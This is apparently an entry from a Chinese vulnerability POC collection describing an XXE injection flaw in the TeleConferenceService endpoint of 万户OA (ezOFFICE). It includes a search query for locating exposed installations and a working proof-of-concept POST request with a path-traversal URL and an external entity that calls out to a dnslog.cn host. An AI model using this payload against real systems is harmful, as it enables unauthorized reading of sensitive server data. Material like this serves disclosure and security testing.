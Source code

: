 # 万户OA TeleConferenceService XXE注入漏洞

## 漏洞描述

万户OA TeleConferenceService接口存在XXE注入漏洞，攻击者通过漏洞可以继续XXE注入获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![](images/202209131048922.png)

验证POC

```
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://fep6kf.dnslog.cn" >]>        
<value>&xxe;</value>
```

![](images/202209131049806.png)